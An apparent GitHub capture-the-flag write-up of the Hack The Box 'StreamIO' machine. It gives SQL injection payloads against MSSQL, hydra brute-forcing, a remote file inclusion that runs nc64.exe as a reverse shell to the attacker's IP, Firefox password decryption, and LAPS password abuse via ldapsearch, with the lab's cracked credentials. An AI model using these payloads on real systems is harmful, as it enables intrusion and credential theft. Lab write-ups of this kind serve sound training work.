

# 🚀 StreamIO – Hack The Box (Windows, Medium)



> 💣 A juicy blend of classic SQLi, smart Active Directory abuse, and elegant privilege escalation using Firefox creds and LAPS 🦊🔓

[]()
[]()
[]()
[]()

---

## 🧠 TL;DR

1. Subdomain discovery + SQLi on `watch.streamio.htb`
2. Dumped user creds from MSSQL
3. Brute-forced login → accessed admin panel
4. LFI → RFI → Reverse shell via `include`
5. Found Firefox stored passwords → lateral movement
6. BloodHound revealed ACL path to LAPS read
7. Abused LAPS → 🏁 Admin shell

---

## 🔍 Enumeration

```bash
nmap -T4 -Pn 10.10.11.158
```

Open ports:
- 80/443 (HTTP/HTTPS)
- 88/135/139/389/445/464/593/636/3268/3269

Found subdomain via `ffuf`:
```bash
ffuf -u https://10.10.11.158/ -H "Host: FUZZ.streamio.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -k -fs 0
```

💥 Result:
```
watch.streamio.htb
```

---

## 🔎 SQL Injection on `search.php`


```sql
' UNION SELECT 1,@@version,3,4,5,6-- -
```

💥 Found Microsoft SQL Server:


Dumped database/table names:
```sql
SELECT STRING_AGG(name, ',') FROM STREAMIO..sysobjects WHERE xtype='U'
```

Tables: `users`, `movies`

---

## 🧂 User Credential Extraction

Get columns:
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name='users')
```


Dump creds:
```sql
SELECT CONCAT(username, ' ', password) FROM users
```


---

## 🔓 Login & Admin Panel

Brute-forcing:
```bash
hydra -L users.txt -P passwords.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"
```

💥 Cracked:
```
yoshihide : 66boysandgirls..
```


Accessed admin dashboard:


---

## ⚙️ LFI → RFI → Reverse Shell

Used `debug` and `include` in `master.php`:
```http
POST /admin/?debug=master.php
Content-Type: application/x-www-form-urlencoded

include=http://10.10.14.19/test.php
```

Payload chain:
- Upload `nc64.exe`
- Run it with reverse shell payload

```php
system("c:\\windows\\temp\\nc64.exe 10.10.14.19 4444 -e cmd.exe");
```

🏁 Shell:
```
nc -lnvp 4444
```

---

## 🦊 Firefox Credential Harvesting

Found via WinPEAS:
```
C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\
├── key4.db
├── logins.json
```

Decrypted using firepwd:
```bash
git clone https://github.com/lclevy/firepwd
pip install pyasn1 pycryptodome
python3 firepwd.py .
```

💥 Found:
```
JDgodd : JDg0dd1s@d0p3cr3@t0r
```

---

## 🧠 BloodHound + LAPS Priv Esc

### ACL Path


- JDgodd owns `CORE STAFF`
- `CORE STAFF` has `ReadLAPSPassword` on DC

Use PowerView to:
- Set owner of group
- Add JDgodd to `CORE STAFF`

Use `ldapsearch`:
```bash
ldapsearch -x -H ldap://streamio.htb -D "JDgodd@streamio.htb" -w 'JDg0dd1s@d0p3cr3@t0r' -b "CN=DC,CN=Computers,DC=streamio,DC=htb" ms-MCS-AdmPwd
```

Extracted Admin Password:
```
@#+wc31iJ;)ZH%
```

---

## 🏁 Root Access

```bash
evil-winrm -i streamio.htb -u administrator -p '@#+wc31iJ;)ZH%'
```

Rooted 🎉

---

## 👨‍💻 Author

**Mohammed Al-Sadi (GlitchHunter)**  
[GitHub](https://github.com/GlitchHunter1) • [TryHackMe](https://tryhackme.com/p/GlitchHunter) • [Hack The Box](https://app.hackthebox.com/profile/GlitchHunter)

---

If you found this write-up useful, star this repo ⭐ and follow for more elite content.
